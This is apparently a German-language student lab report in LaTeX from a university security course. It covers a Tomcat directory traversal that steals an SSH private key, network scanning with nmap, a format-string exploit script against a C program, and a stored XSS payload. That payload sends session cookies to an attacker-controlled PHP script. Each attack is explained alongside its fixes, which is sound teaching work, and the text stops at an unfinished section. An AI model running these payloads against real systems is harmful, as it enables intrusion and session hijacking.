%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% Institut für Rechnergestuetzte Automation
% Forschungsgruppe Industrial Software
% Arbeitsgruppe ESSE
% http://security.inso.tuwien.ac.at/
% lva.security@inso.tuwien.ac.at
% 
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\usepackage{esseProtocol}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% FOR STUDENTS
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% Group number or "0" for Lab0
\newcommand{\gruppe}{48}
% Date
\newcommand{\datum}{10.5.2013}
% valid values: "Lab0", "Lab1" (be sure to use Uppercase for first character)
\newcommand{\lab}{Lab1}

% name of course, for example: "IT Security in Large IT Infrastructures", "Security for Systems Engineering", "Introduction to Security"
\newcommand{\lvaname}{Security for Systems Engineering}
% number of course, for example: "183.633", "183.637", "183.594"
\newcommand{\lvanr}{183.637}
% year and term, for example: "SS 2012", "WS 2012", "SS 2013", etc.
\newcommand{\semester}{SS 2013}

% Student data in Lab0 or first student of group in Lab1
\newcommand{\studentAName}{Patrick Fleck}
\newcommand{\studentAMatrnr}{1025484}
\newcommand{\studentAEmail}{e1025484@student.tuwien.ac.at}

% second student of group in Lab1, for Lab0 you may leave it unchanged
\newcommand{\studentBName}{Klaus Behrens}
\newcommand{\studentBMatrnr}{0927376}
\newcommand{\studentBEmail}{e0927376@student.tuwien.ac.at}

% second student of group in Lab1, for Lab0 you may leave it unchanged
\newcommand{\studentCName}{Matthias Pernerstorfer}
\newcommand{\studentCMatrnr}{0929329}
\newcommand{\studentCEmail}{e0929329@student.tuwien.ac.at}

% second student of group in Lab1, for Lab0 you may leave it unchanged
\newcommand{\studentDName}{Martin Winklmüller}
\newcommand{\studentDMatrnr}{1025742}
\newcommand{\studentDEmail}{e1025742@student.tuwien.ac.at}

% second student of group in Lab1, for Lab0 you may leave it unchanged
\newcommand{\studentEName}{David Mihola}
\newcommand{\studentEMatrnr}{9902433}
\newcommand{\studentEEmail}{e9902433@student.tuwien.ac.at}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% DO NOT CHANGE THE FOLLOWING PART
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\dokumenttyp}{Abgabedokument \lab}

\begin{document}

% hinzugefügt von David, damit wir " ganz normal vewenden können
\shorthandoff{"}

% hinzugefügt von David, damit der Font in den Listings etwas kleiner ist
\lstset{basicstyle=\ttfamily\scriptsize,
        breaklines=true
        }

\maketitle
\setcounter{section}{0}
\setcounter{tocdepth}{2}
\tableofcontents

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% CONTENT OF DOCUMENT STARTS HERE
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Lab1a}

\subsection{Zugang zu Tomcat}
Den Zugang zum Tomcat-Server erhält man sehr leicht - zumindest unter Linux. Alle Arbeiten wurden unter Linux
durchgeführt. Für den Zugang ist es notwendig, sich via SSH auf den ESSE-Server zu verbinden, allerdings mit Port Forwarding
auf den angegebenen Tomcat-Server:

ssh -p 12345 MATRNR@sela.inso.tuwien.ac.at -L 8000:192.168.20.100:8000

Dies hat zur Folge, dass der Port 8000 nun auf den Port des Tomcat-Servers geforwarded wird und es somit ein leichtes
ist, mittels http://localhost:8000 die Homepage auf dem Server einzusehen.

\subsection{Walter's Private Key}
Nun war es die Aufgabe, sich einen SSH-Zugang mit dem User 'walter' zu verschaffen. Hierfür gibt es 2 Möglichkeiten, sich
via SSH zu authentifizieren:
\begin{enumerate}
\item Plain-Text Passwort
\item Private-Key und Public-Key Methode
\end{enumerate}

Natürlich ist es sehr unwahrscheinlich, dass jemand sein Passwort als Plain-Text irgendwo auf einem Server abspeichert. Deshalb
fokussieren wir uns im folgenden auf die 2. Möglichkeit.

Unter Linux-Systemen gibt es hierfür einen Ordner .ssh im Home-Verzeichnis des Users. Im Falle von David Mihola würde
dieser unter /home/David/.ssh zu finden sein. Hier liegt nun eine Datei id\_rsa, die im Normalfall den Private Key
des Users, der den SSH-Zugang anfordert beinhaltet.

Nun sollte es doch für 'walter' genauso sein. Das heißt wir suchen nach dem Ordner /home/walter/.ssh. Dieser ist aber
natürlich am Server geschützt und kann nicht einfach durch eintippen in Plain-Text in die Adresse des Servers
angesurft werden. Jedoch hat der hier verwendete Tomcat-Server eine Schwachstelle. Mittels Directory-Traversal kann
der Server ausgetrickst werden und der Ordner eingesehen werden. Hier die Adresse der zu untersuchenden Datei:
\url{http://localhost:2222/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/home/walter/.ssh/id\_rsa}

Directory-Traversal führt hier eine Umwandlung von Plain-Characters in Sonderzeichen ein, wodurch der Server nun die Datei auch
anzeigt. Die Sonderzeichen sind spezielle URI-Zeichenfolgen, die vom Server in Plain-Text umgewandelt werden. Damit kann
man etwaige Schutzmechanismen des Tomcat-Servers umgehen.

\subsection{SSH-Zugang via User 'Walter'}
Wie bekommt man nun einen SSH-Zugang mit einem fremden Private Key?
Wie oben beschrieben, gibt es für jeden User den Ordner .ssh mit den Private Keys für SSH-Zugängen. Es muss nun
möglich sein, sich einen Zugang zum User 'walter' zu verschaffen, indem man sich als dieser ausgibt. Dazu
wird einfach im Ordner /home/David/.ssh eine Datei namens id\_rsa erstellt (falls diese noch nicht existiert). Danach wird
der gefundene Schlüssel von 'walter' hineinkopiert und die Datei gespeichert. Nun ist es noch notwendig mittels 'chmod
600 id\_rsa' den Zugriffsschutz des Keys auf Permission 600 umzustellen. Andernfalls wird der Server die Verbindung
verweigern, da der Key nicht ausreichend geschützt ist. Das Port-Forwarding über die SSH-Verbindung zum ESSE-Institut
sollte nun noch vorhanden sein. Da wir ja über den Port 2222 direkt auf den Tomcat-Server zugreifen können, ist es nun
möglich, sich mittels 'ssh -p 2222 walter@localhost' mit dem Benutzer 'walter' einzuloggen. Dies funktioniert aus folgendem
Grund:\linebreak
Auf dem Server befinden sich (in der Datei \url{~/.ssh/authorized_keys}) die Public-Key aller User, die mittels Public-Key/Private-Key Zugang zum Server bekommen sollen. Wird nun eine Verbindung angefordert, so muss der User, der dies durchführt, einen Private-Key in seinem .ssh-Ordner besitzen, der zu einem Public-Key am Server passt.
Wir haben uns den Private-Key von 'walter' in unseren eigenen .ssh-Ordner kopiert und der Server glaubt nun, wir seien
auch dieser User.

\subsection{Analyse}
In diesem Abschnitt wird besprochen, welche Fehler zu den genannten Sicherheitslücken geführt haben, und wie sie behoben werden können. Es handelt sich um drei mehr oder weniger unabhängige Fehler, wobei schon das Beheben eines einzigen dieser Fehler das Eindringen erheblich erschweren würde.

\subsubsection{Fehler1: Veraltete Tomcat-Version}
Die verwendete Version des Tomcat-Servers (6.0.16) hat offentsichtlich eine Sicherheitslücke, die den Zugriff auf Dateien erlaubt, die außerhalb der Ordners für Web-Dokumente auf dem Server liegen. Ein Update auf eine aktuelle(re) Version des Servers hätte diese Lücke geschlossen und damit verhindert, dass über den Webserver auf beliebige User-Daten - wie z. B. Walters privaten SSH-Schlüssel - zugegriffen werden kann.

\subsubsection{Fehler 2: Privater SSH-Key auf dem Server}
Die Bezeichnung "privater Schlüssel" hätte für Walter ein ausreichender Hinweis sein müssen, um diesen privaten Schlüssel an einem \emph{privaten} Ort abzulegen. Ein über das Internet zugänglicher Server ist nicht so ein privater Ort. Darüberhinaus ist es nicht nur gefährlich, sondern auch sinnlos, den privaten Schlüssel auf jenem Rechner aufzubewahren, für den er den Zugang ermöglicht.
Walter hätte also nur eine Kopie seines öffentlichen Schlüssels (in der Datei \url{~/.ssh/authorized_keys}) auf dem Server belassen sollen. Den privaten Schlüssel hätte er vom Server löschen müssen und ihn \emph{nur auf dem Rechner, von dem aus er Zugriff auf den Server haben möchte}, aufbewahren sollen.

\subsubsection{Fehler 3: Privater SSH-Key nicht passwortgeschützt}
Die vorherigen beiden Sicherheitslücken wären noch längst nicht so gravierend ausgefallen, hätte Walter seinen Schlüssel wenigestens durch ein ausreichend starkes Passwort geschützt. Stattdessen verwendete der Schlüssel die sogenannte "empty passphrase", also gar kein Passwort, wie ein kurzer Angriff mit dem Tool phrasendrescher verriet:

\begin{lstlisting}
david@brazos:~/lab1$ phrasendrescher -i 8 id_rsa
phrasen|drescher 1.0 - the passphrase cracker
Copyright (C) 2007 Nico Leidecker; nfl@portcullis-security.com

match: (0) id_rsa {empty passphrase}
finished!
bye, bye...
\end{lstlisting}

Walter hätte also ein ausreichend starkes Passwort - oder eben besser gleich eine längere Passphrase - wählen sollen, um seinen Schlüssel zu schützen. Dann hätte selbst ein Angreifer, der beide anderen Sicherheitslücken ausnützen konnte, den Schlüssel nicht verwenden können.

Letztlich war der Angriff also nur durch das Zusammenspiel von 3 einzelnen Sicherheitslücken möglich.



\section{Lab1b - Netzwerkanalyse}

\subsection{Direkt erreichbare Netze}

Im ersten Schritt war zu ermitteln, welche Netzwerke vom Tomcat-Server aus direkt zu erreichen sind. Die Antwort darauf liefert das Auslesen der sogenannten Kernel Routing Tables mit Hilfe von netstat.

\begin{lstlisting}
walter@tomcat:~$ netstat -rn
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
192.168.20.0    0.0.0.0         255.255.255.0   U         0 0          0 eth0
192.168.98.0    0.0.0.0         255.255.255.0   U         0 0          0 eth1.98
0.0.0.0         192.168.98.1    0.0.0.0         UG        0 0          0 eth1.98
walter@tomcat:~$ netstat -6rn
Kernel IPv6 routing table
Destination                    Next Hop                   Flag Met Ref Use If
fdcb:c447:e9d2:3553:1001::/120 ::                         U    256 0
  1 eth1.98
fe80::/64                      ::                         U    256 0     0 eth0
fe80::/64                      ::                         U    256 0     0 eth1
fe80::/64                      ::                         U    256 0
  0 eth1.98
::/0                           fdcb:c447:e9d2:3553:1001::1 UG   1024
1224143 eth1.98
::/0                           ::                         !n   -1  1246254 lo
::1/128                        ::                         Un   0   3    28 lo
fdcb:c447:e9d2:3553:1001::ab/128 ::                         Un   0   1 76668 lo
fe80::21b:d7ff:fe12:bc52/128   ::                         Un   0   1  2235 lo
ff00::/8                       ::                         U    256 0     0 eth0
ff00::/8                       ::                         U    256 0     0 eth1
ff00::/8                       ::                         U    256 0
  0 eth1.98
::/0                           ::                         !n   -1  1246254 lo
\end{lstlisting}

Die direkt erreichbaren Netze sind daher: 192.168.20.0/24, 192.168.98.0/24 und 

\subsection{Ping-Scan}

Im nächsten Schritt war ein Ping-Scans durchzuführen, um zu ermitteln, welche Hosts in den genannten IP-Adress-Bereichen erreichbar sind. Die zu durchsuchenden Bereich waren dabei: 192.168.96.0/21, 172.16.0.0/22, 10.12.0.0/24 für IPv4 sowie fdcb:c447:e9d2:3553:1000::/120 bis fdcb:c447:e9d2:3553:100f::/120.

Die Scans der IPv4-Adresse konnten wir direkt auf dem Server durchführen:

\begin{lstlisting}
walter@tomcat:~$ nmap -v -sP 192.168.96.0/21 | grep up
Host omega.local.vienna.essecorp.invalid (192.168.98.1) is up (0.0023s latency).
Host alpha.local.vienna.essecorp.invalid (192.168.98.10) is up (0.00054s latency).
Host beta.local.vienna.essecorp.invalid (192.168.98.28) is up (0.00023s latency).
Host gamma.local.vienna.essecorp.invalid (192.168.98.54) is up (0.00035s latency).
Host delta.local.vienna.essecorp.invalid (192.168.98.99) is up (0.0031s latency).
Host tomcat.local.vienna.essecorp.invalid (192.168.98.124) is up (0.000076s latency).
Host epsilon.local.vienna.essecorp.invalid (192.168.98.201) is up (0.00038s latency).
Host zeta.local.vienna.essecorp.invalid (192.168.98.202) is up (0.0015s latency).
Nmap done: 2048 IP addresses (8 hosts up) scanned in 87.47 seconds

walter@tomcat:~$ nmap -v -sP 172.16.0.0/22 | grep up
Host gemini.dmz.vienna.essecorp.invalid (172.16.2.12) is up (0.0065s latency).
Host phoenix.dmz.vienna.essecorp.invalid (172.16.2.15) is up (0.0035s latency).
Host taurus.dmz.vienna.essecorp.invalid (172.16.2.25) is up (0.0041s latency).
Host lyra.dmz.vienna.essecorp.invalid (172.16.2.253) is up (0.00070s latency).
Nmap done: 1024 IP addresses (4 hosts up) scanned in 78.61 seconds

walter@tomcat:~$ nmap -v -sP 10.12.0.0/24 | grep up
Nmap done: 256 IP addresses (0 hosts up) scanned in 104.14 seconds
\end{lstlisting}

Da nmap beim Scan von IPv6-Adressen keine Adressebereiche unterstütz, mussten wir uns für diesen Teil der Aufgabe ein kleines Python-Skript schreiben, das die gewünschten Adressen erzeugt und dann für jede einzelne Adresse nmap aufruft.
Eine weitere Komplikation ergab sich, da wir auf dem Tomcat-Server keinerlei Schreibrechte hatten. Aus diesem Grund konnten wir weder das Skript selbst auf dem Server ablegen, noch den Output des Skripts in eine Datei auf dem Server schreiben, um sie später zur Analyse zur Verfügung zu haben. Um dies zu umgehen, ließen wir das Skript auf einem unserer Rechner lokal laufen und riefen im Skript nmap über ssh auf dem Server auf:

\begin{lstlisting}
import subprocess

for y in range (0, 16):
  base_address = "fdcb:c447:e9d2:3553:100" + format(y, 'x') + ":0000:0000:00"
  for x in range (0, 256):
    address = base_address + format(x, 'x')
    subprocess.call(['ssh', '-p 2222', 'walter@localhost', 'nmap', '-6', '-sP', address])
\end{lstlisting}

Der Aufruf des Skripts bringt folgendes Ergebnis:

\begin{lstlisting}
david@brazos:~/lab1$ python ipv6-scan.py > output.txt
david@brazos:~/lab1$ cat output.txt | grep fdcb
Host omega.local.vienna.essecorp.invalid (fdcb:c447:e9d2:3553:1001::1) is up (0.0041s latency).
Host alpha.local.vienna.essecorp.invalid (fdcb:c447:e9d2:3553:1001::5) is up (0.0044s latency).
Host beta.local.vienna.essecorp.invalid (fdcb:c447:e9d2:3553:1001::9) is up (0.0041s latency).
Host gamma.local.vienna.essecorp.invalid (fdcb:c447:e9d2:3553:1001::21) is up (0.0027s latency).
Host delta.local.vienna.essecorp.invalid (fdcb:c447:e9d2:3553:1001::43) is up (0.0064s latency).
Host epsilon.local.vienna.essecorp.invalid (fdcb:c447:e9d2:3553:1001::79) is up (0.0064s latency).
Host zeta.local.vienna.essecorp.invalid (fdcb:c447:e9d2:3553:1001::88) is up (0.0064s latency).
Host tomcat.local.vienna.essecorp.invalid (fdcb:c447:e9d2:3553:1001::ab) is up (0.000044s latency).
Host lyra.dmz.vienna.essecorp.invalid (fdcb:c447:e9d2:3553:1002::fd) is up (0.00021s latency).
Host kerberos.dmz.vienna.essecorp.invalid (fdcb:c447:e9d2:3553:1002::fe) is up (0.00049s latency).
Host athena.extra.atlanta.essecorp.invalid (fdcb:c447:e9d2:3553:1003::7f) is up (0.26s latency).
Host zeus.extra.atlanta.essecorp.invalid (fdcb:c447:e9d2:3553:1003::9a) is up (0.27s latency).
Host kerberos.extra.atlanta.essecorp.invalid (fdcb:c447:e9d2:3553:1003::da) is up (0.00046s latency).
\end{lstlisting}

\subsection{Port-Scans}
Als nächstes scannten wir alle gefundenen Hosts auf offene Ports und laufende Services.
Nachfolgend werden die gefundenen IP-Adressen und ihre zugehörigen offenen Ports sowie Services aufgelistet:
TCP IPv4 Scans:
\begin{lstlisting}
192.168.98.10 Port 53 domain dnsmasq 2.55
192.168.98.28 Port 25 SMTP
192.168.98.54 Port 1080 socks5 (Username/password authentication required)
192.168.98.99 Port 631 ipp cups 1.4 (Printserver Apple)
192.168.98.124 Port 8000 Apache Tomcat/Coyote JSP engine 1.1
192.168.98.124 Port 8009 ajp13 Apache Server, Service Info: OS: Linux 
192.168.98.124 Port 22 OpenSSH 5.5p1 Debian 6+sqeueeze3 (Protocol 2.0), OS: Linux
192.168.98.201 Port 139 und 445 (Printserver smb mit und ohne netbios) netbios-ssn Samba smbd 3.X (workgroup: ESSECORP)
172.16.2.12 http lighttpd 1.4.28 dmz
172.16.2.15 Port 21 FTP vsftpd 2.3.2 dmz
172.16.2.25 Port 25 SMTP dmz
\end{lstlisting}

IPv6 Scans:
\begin{lstlisting}
athena.extra.atlanta.essecorp.invalid:
Port 80 - http ligthttpd
Port 443 - ssl/http lighttpd
lighthttpd ist ein kleiner Webserver, der Perl, PHP, Python und Ruby unterstützt

zeus.extra.atlanta.essecorp.invalid:
Port 7 - echo
Port 9 - discard?
Port 13 - daytime
Port 19 - chargen Linux
Port 22 - ssh
Port 37 - time?
\end{lstlisting}

Der Netzwerkplan zeigt wie das Netzwerk aufgebaut ist.

\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=1\textwidth]{./imgs/Netzwerkplan.jpg}
  }
  \caption{Netzwerkplan}
  \label{fig:netzwerkplan}
\end{figure}

Es fällt sofort auf, dass es 4 verschiedene große Domänen gibt, die jeweils eine andere Funktionalität verfolgen:
\begin{enumerate}
\item local.vienna.essegroup.invalid
\item dmz.vienna.essegroup.invalid
\item extra.atlanta.essegroup.invalid
\item Hosts
\end{enumerate}

Die erste lokale Domäne beinhaltet einen typischen Proxy, der innerhalb des lokalen Netzwerkes arbeitet. Außerdem gibt es einen
internen Mail-Server (SMTP), einen internen Tomcat mit SSH-Zugang, sowie den typischen DNS und 2 Druckerserver, die
nur intern genutzt werden können.\linebreak
Die DMZ (Demilitarisierte Zone) bietet Services an, auf die man auch aus dem Internet zugreifen kann. Somit existieren die
3 Komponenten Mailserver, FTP- und SMTP-Server.\linebreak
Die Komponenten TCP/UDP-Server, sowie ein kleiner Lightweight-HTTP-Webserver liegen hier in einer eigenen Domäne.\linebreak
Die Host bekommen Adressen im Bereich von 10.12.0.1 bis 10.12.255.254.


\section{App0}
\subsection{Vulnerability: Format-String Vulnerability}
Bei App0 handelt es sich um ein kleines C-Programm, das nach einer Passwortabfrage, die überprüft wird, zu einem kleinen Rechenprogramm weiterleitet. Stimmt das Passwort nicht mit dem gesuchten überein, wird das Programm beendet. Das Passwort, so wie einige andere Character-Arrays (für Passwort *pwd), wurde als Plain Text einfach in Variablen im Programm abgespeichert, die dann natürlich irgendwo, zur Laufzeit, am Stack liegen.\linebreak
Stimmt das Passwort nun nicht überein, so wird die Eingabe nochmals in der Konsole ausgegeben:
\begin{lstlisting}
e1025484@pc389:~/My_Documents/Dokumente/ESSE-LAB1/Codebeispiele/app0/src-vuln/src$ ./sfv
Passwort eingeben: 
I don't know!
I don't know!

\end{lstlisting}
Sieht man sich den Code an, so findet man schnell eine StringFormat-Vulnerability. Denn die Ausgabe des Passworts passiert vollkommen unformatiert.
\begin{lstlisting}
if (strcmp(pwd, input) == 0) {
    return 1;
  } else {
      printf(input); //Diese Zeile ist das Problem
    
    printf("\n");
    return 0;
  }
\end{lstlisting}
Wodurch man hier auch jegliche Speicheradressen angeben kann, um somit den Laufzeitspeicher + Stack gnadenlos zu durchwühlen. Dies ist möglich, indem man
als Passwort z.B.:
\begin{lstlisting}
%d%x(%s)
\end{lstlisting}
eingibt. Bereits damit kann man auf eine Speicheradresse zugreifen, wo höchstwahrscheinlich ein String (bzw. eine Char-Kette) aus dem laufenden Programm liegt.
Ist der Speicherbereich leer, bekommt man einen Segmentation Fault. Will man nun um einen Speicherbereich weiterspringen
und sehen, ob und was die nächste mögliche Adresse speichert, so sieht dies folgendermaßen aus:
\begin{lstlisting}
%d%d%x(%s)
\end{lstlisting}
Dies kann bis ins unendliche durchgespielt werden. Außerdem findet sich das selbe Problem auch in der Funktion startCalculator(),
wo die eingegebenen Werte des Taschenrechners ausgegeben werden. Auch hier könnte man den selben Angriff starten:
\begin{lstlisting}
printf("Ergebnis fuer Rechnung: \n");
      printf(a);
      printf(op);
      printf(b);
      printf("=====\n");
\end{lstlisting}
\subsection{Script zur Automatisierung}
Es wurde ein Bash-Script geschrieben, das diese Schwachstalle
automatisiert ausnutzt: 
\begin{lstlisting}
#!/bin/sh
make
if [ $# -eq 0 ]
then
   echo "Error - Number missing form command line argument"
   echo "Syntax : $0 number"
exit 1
fi
n=$1
input="%d%x(%s)"
var="%d"
i=0
while [ $i -le $n ]
do
  echo $input | ./sfv
  input=$var$input
  i=`expr $i + 1`
done
\end{lstlisting}
Es bekommt als Argument eine Zahl übergeben, wie oft die darunterliegenden Schleife durchlaufen werden soll, also wie
viele aufeinanderfolgende Speicheradressen man sich ansehen möchte. Ruft man das Script mit Argument 5 auf sieht der 
Output folgendermaßen aus:
\begin{lstlisting}
$ ./exploit.sh 10
make: Für das Ziel »all« ist nichts zu tun.
Passwort eingeben:
./exploit.sh: Zeile 18: 12848 Fertig                  echo $input
     15060 Segmentation fault      | ./sfv
Passwort eingeben:
./exploit.sh: Zeile 18:  4260 Fertig                  echo $input
     14752 Segmentation fault      | ./sfv
Passwort eingeben:
./exploit.sh: Zeile 18:  4632 Fertig                  echo $input
      9568 Segmentation fault      | ./sfv
Passwort eingeben:
./exploit.sh: Zeile 18:  4812 Fertig                  echo $input
     13024 Segmentation fault      | ./sfv
Passwort eingeben:
2337844162899732816801720691680172069201571638929732528()

Passwort eingeben:
23378441628997328168017206916801720691680172069623409189a2973(secret
)

Passwort eingeben:
23378441628997328168017206916801720691680172069201571638975461524020bb(test

Passwort eingeben:
233784416289973281680172069168017206916801720691680172069265219742026834020b5(
Passwort eingeben:
233784416289973281680172069168017206916801720691680172069245046942026834202677
Passwort eingeben:
233784416289973281680172069168017206916801720691680172069245046942026834202677
Passwort eingeben:
233784416289973281680172069168017206916801720691680172069245046942026834202677
\end{lstlisting}
Der Output ist natürlich systemabhängig und kann auf 32-bit Prozessoren ganz anders aussehen als auf 64-bit Prozessoren.
Auch macht es einen Unterschied ob man Linux oder Linux-Emulatoren, wie das hier verwendete Cygwin, verwendet.
Bekommt man keine Strings zurück, gibt es entweder keine oder man sollte die Schleifendurchläufe erhöhen.
In diesem Durchlauf sind wir auf 2 Strings gestoßen, test und secret. Letztes ist dann auch das gesuchte Passwort, das
im Quellcode Plain-Text als Zeichenkette gespeichert wurde.
\subsection{Lösung des Problems}
Anstatt den vorher erwähnten print-Anweisungen sollten print-Anweisungen immer und überall mit Formats in der gewünschten
Form verwendet werden. Für einen String würde das so aussehen:
\begin{lstlisting}
printf("%s",str);
\end{lstlisting}
Dies verhindert den unerwünschten Zugriff durch den in Anführungszeichen stehenden Platzhalter für den String.
Führt man das Script nun in der gefixten Version des Programms aus, so bekommt man genau das vom Programm ausgegeben,
was man auch eingegeben hat.


\section{App1 - Blog in Java mit JSP}

\subsection{Vulnerability: Cross-Site Scripting}

Das Blog ist anfällig für Cross-Site Scripting. Das Problem liegt darin, dass die Eingabedaten beim Erzeugen eines neuen Blog-Eintrags nur unzureichend gefiltert werden. Beim erneuten Anzeigen eines betroffenen Blog-Eintrags werden diese Daten - die z. B. beliebigen JavaScript-Code enthalten können - dann an den Browsers gesendet und dort ausgeführt.

\subsubsection{Ein harmloses Beispiel}

Ein konkretes Beispiel für einen Angriff: Der Angreifer \emph{evil\_hacker} legt einen neuen Blog-Eintrag an. Im Formular auf \url{newPost.html} gibt er als Benutzernamen wahrheitsgemäß \lstinline$evil_hacker$ ein. Als Text des Blog-Eintrags wählt er \lstinline$<SCRIPT SRC=http://web.student.tuwien.ac.at/~e9902433/xss.js></SCRIPT>$.

Im Servlet, das den Post-Request entgegen nimmt (\url{gui.controller.BlogServlet}) wird die Eingabe zwar validiert, bevor sie in die (In-Memory-)Datenbank geschrieben wird. Leider ist der verwendete Validator (\url{gui.helper.ScriptTagValidator}) nicht ausreichend. Die verwendete Regular Expression \lstinline$.*< *[Ss][Cc][Rr][Ii][Pp][Tt] *>.*"$ matcht nur Script-Tags, die keine Attribute zwischen dem Wort "script" und der schließenden Spitz-Klammer enthalten. Durch die Angabe \lstinline$SRC=http://web.student.tuwien.ac.at/~e9902433/xss.js$ lässt sich der Validator also in die Irre führen und lässt die Eingabe ungefiltert durch.

Auf dem Webspace von \emph{evil\_hacker} liegt unter der URL \url{SRC=http://web.student.tuwien.ac.at/~e9902433/xss.js} eine JavaScript-Datei mit dem folgenden Inhalt:

\begin{lstlisting}
document.write('This is the evil script!')
\end{lstlisting}

Da bei der Ausgabe der Blog-Einträge die Inhalte überhaupt nicht mehr gefiltert werden, wird also das eingegebene Script-Tag als Blog-Eintrag wieder ausgegeben (z. B. in archive.jsp). Im Browser wird das Script-Tag dann so behandelt, als würde es aus vertrauenswürdiger Quelle kommen: Das Script von der angegebenen URL wird heruntergeladenen und ausgeführt. Im konkreten Fall wird dadurch an der Stelle, an der sich das Script-Tag befand der Text "This is the evil script" ausgegeben. (Der Vollständigkeit halber soll darauf hinwiesen werden, dass der Angriff auch funktionieren würde, wenn der Angreifer das Script-Tag als Autoren-Namen und nicht als Blog-Text eingegeben hätte, da diese beiden Werte auf exakt dieselbe Art behandelt werden. Dasselbe gilt für die Suchbegriffe in der Suchfunktion.)

Im vorliegenden Fall handelt es sich natürlich nur um einen harmlosen "Spass" - schließlich hätte der Angreifer ja auch gleich "This is the evil script" als Blog-Text eintragen können. Im folgenden Abschnitt widmen wir uns einem tatsächlich potentiell gefährlichen Angriff.

\subsubsection{Tatsächlicher Angriff: Session Hijacking}

Nehmen wir, der Angreifer erweitert sein Script, und fügt dabei zwei Befehle hinzu, die den Inhalt des Cookies an ein Skript auf dem Webserver des Angreifers schicken (zu Demonstrationszwecken gibt das Skript den Inhalt des Cookies auch noch als Teil der Website aus):

\begin{lstlisting}
document.write('This is the evil script!');

document.write('Cookie contents: ' + escape(document.cookie));
document.write('<img src=\'http://web.student.tuwien.ac.at/~e9902433/steal_the_sessionID.php?s='+escape(document.cookie)+'\' />');
\end{lstlisting}

Das Skript \url{steal_the_sessionID.php} kann dann die SessionID aus dem Cookie extrahieren und der Angreifer hätte dann über die SessionID Zugriff auf die Session des Opfers. Die Website könnte dann nicht mehr zwischen dem Opfer und dem Angreifer unterscheiden und der Angreifer hätte Zugriff auf eventuell gespeicherte private Daten des Opfers, etc.

\subsubsection{HttpOnly?}

